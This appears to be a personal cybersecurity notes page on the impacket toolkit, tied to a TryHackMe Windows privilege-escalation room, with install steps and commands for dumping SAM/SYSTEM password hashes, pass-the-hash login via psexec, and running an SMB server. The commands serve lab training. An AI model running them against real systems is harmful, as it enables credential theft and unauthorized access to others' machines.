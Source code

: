 # impacket

[![windowsprivesc20](../../../../cybersecurity/_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

<div class="row row-cols-md-2"><div>

[impacket](https://github.com/fortra/impacket) (11.1k ⭐) is a collection of [python](/programming-languages/high-level/python/index.md) classes for working with network protocols.

```shell!
$ sudo git clone https://github.com/fortra/impacket /opt/impacket
$ cd /opt/impacket
$ pip install -r requirements.txt
$ pip install .
```


</div><div>

#### Dump hashes from backup

Dump hashes from a backup of SAM and SYSTEM hashes.

```shell!
$ python /opt/impacket/examples/secretsdump.py -sam XXX -system YYY LOCAL
```

<br>

#### PsExec

Use a hash to login (Pass-The-Hash).

```shell!
$ python /opt/impacket/examples/psexec.py -hashes usernamehash:sessionhash username@IP
```

<br>

#### SMB server

Run a [SMB](../smb.md) server to which user will connect with the username XXX and the password YYY. Files will be stored in `/path/to/share`.

```shell!
$ python /opt/impacket/examples/smbserver.py -smb2support -username XXX -password YYY share_name /path/to/share
```
</div></div>